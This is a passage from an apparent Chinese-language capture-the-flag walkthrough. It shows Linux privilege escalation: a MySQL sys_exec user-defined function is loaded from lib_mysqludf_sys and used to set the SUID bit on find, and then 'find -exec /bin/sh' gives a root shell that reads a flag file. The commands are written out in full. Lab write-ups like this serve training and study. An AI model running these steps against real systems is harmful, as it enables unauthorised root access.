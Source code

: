 使用sys_exec 函数

```
create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
```

![image-20220301194644341](https://gitee.com/xxb667/img/raw/master/img/image-20220301194644341.png)

查询一下添加的函数

```
select * from mysql.func;
```

![image-20220301194737868](https://gitee.com/xxb667/img/raw/master/img/image-20220301194737868.png)

### 改变find命令权限

利用自定义函数改变find命令权限

```
select sys_exec('chmod u+s /usr/bin/find');
```

![image-20220301194947948](https://gitee.com/xxb667/img/raw/master/img/image-20220301194947948.png)

# 4. 提权

## 4.1 使用find命令提权

- 退出数据库
  - 新建一个文件hello
- 使用find命令查找这个文件
- 并使用find命令执行shell命令
  - find执行shell命令后
  - 可以看到已经提升到root权限了
- 读取flag文件

```
touch hello   #创建hello文件
id
find hello -exec "/bin/sh" \;
whoami
cd /root
ls
cat flag4.txt

```

![image-20220301195531644](https://gitee.com/xxb667/img/raw/master/img/image-20220301195531644.png)

## 4.2 flag4文件
